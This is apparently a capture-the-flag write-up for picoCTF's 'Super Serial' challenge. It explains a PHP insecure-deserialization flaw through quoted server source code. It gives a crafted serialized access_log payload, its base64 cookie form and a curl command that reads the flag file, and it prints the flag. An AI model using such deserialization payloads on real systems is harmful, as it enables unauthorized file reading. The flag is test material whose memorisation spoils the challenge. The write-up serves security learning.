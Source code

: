 # Super Serial

## Problem

> Try to recover the flag stored on this website <http://mercury.picoctf.net:3449/>

## Solution

1. Going to `robots.txt` shows that `admin.phps` is disallowed. This indicates that the `phps` extension is enabled within the php configuration for this webserver. Files with the `phps` extension contain php code but instead of running when they are accessed, they return an HTML representation of the literal pho code.

2. We can access `index.phps` to find the following:

    ```php
    <?php
    require_once("cookie.php");

    if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
            setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
            header("Location: authentication.php");
            die();
        } else {
            $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
    }
    ?>
    ```

3. The above php code points us in the direction of `authentication.php`. Looking at `authentication.phps` shows the following:

    ```php
    <?php

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    require_once("cookie.php");
    if(isset($perm) && $perm->is_admin()){
        $msg = "Welcome admin";
        $log = new access_log("access.log");
        $log->append_to_log("Logged in at ".date("Y-m-d")."\n");
    } else {
        $msg = "Welcome guest";
    }
    ?>
    ```

4. The above php code points us in the direction of `cookie.php`. Looking at `cookie.phps` shows the following:

    ```php
    <?php
    session_start();

    class permissions
    {
        public $username;
        public $password;

        function __construct($u, $p) {
            $this->username = $u;
            $this->password = $p;
        }

        function __toString() {
            return $u.$p;
        }

        function is_guest() {
            $guest = false;

            $con = new SQLite3("../users.db");
            $username = $this->username;
            $password = $this->password;
            $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
            $stm->bindValue(1, $username, SQLITE3_TEXT);
            $stm->bindValue(2, $password, SQLITE3_TEXT);
            $res = $stm->execute();
            $rest = $res->fetchArray();
            if($rest["username"]) {
                if ($rest["admin"] != 1) {
                    $guest = true;
                }
            }
            return $guest;
        }

            function is_admin() {
                    $admin = false;

                    $con = new SQLite3("../users.db");
                    $username = $this->username;
                    $password = $this->password;
                    $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                    $stm->bindValue(1, $username, SQLITE3_TEXT);
                    $stm->bindValue(2, $password, SQLITE3_TEXT);
                    $res = $stm->execute();
                    $rest = $res->fetchArray();
                    if($rest["username"]) {
                            if ($rest["admin"] == 1) {
                                    $admin = true;
                            }
                    }
                    return $admin;
            }
    }

    if(isset($_COOKIE["login"])){
        try{
            $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
            $g = $perm->is_guest();
            $a = $perm->is_admin();
        }
        catch(Error $e){
            die("Deserialization error. ".$perm);
        }
    }

    ?>
    ```

5. PortSwigger has a great article that goes into detail about [deserialization vulnerabilities](https://portswigger.net/web-security/deserialization/exploiting). [This Medium article](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) gives a more step-by-step beginner guide.

6. The exploit is in this code block:

    ```php
    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

    if(isset($_COOKIE["login"])){
        try{
            $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
            $g = $perm->is_guest();
            $a = $perm->is_admin();
        }
        catch(Error $e){
            die("Deserialization error. ".$perm);
        }
    }
    ```

    We can store any object in the `login` cookie and it will be unserialized. One option is to exploit the `__construct` function, since this is ran immediately when the object is created. However, in both the `access_log` and `permissions` classes, there does not appear to be a valid gadget chain (see "Gadget chains" in [the PortSwigger article](https://portswigger.net/web-security/deserialization/exploiting)).

7. We can store a serialized `access_log` object in the `login` cookie with the `log_file` set to `../flag`. This object will be instantiated in the first line of the `try` block. However, the `access_log` class does not have an `is_guest` function so when the code try to run that function on the next line it will fail, thus jumping to the `catch` block. This catch block prints the value of `$perm`, which is our injected `access_log` object. By printing `$perm`, the `__toString` method of our `access_log` object is called, which displays the content of whatever filename (the value of `access_log`) was passed to it.

8. The php serialized `access_log` object looks like this: `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`. Fore more details about this syntax, see [the aforementioned Medium article](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a). 

9. Let's encode that to base64 and url encode it using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')URL_Encode(true)&input=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9) to get: `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

10. We can use cURL to access the `authentication.php` file with the correct cookie set: `curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"`. This will print the error text and the flag: `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}`

### Flag

`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}`
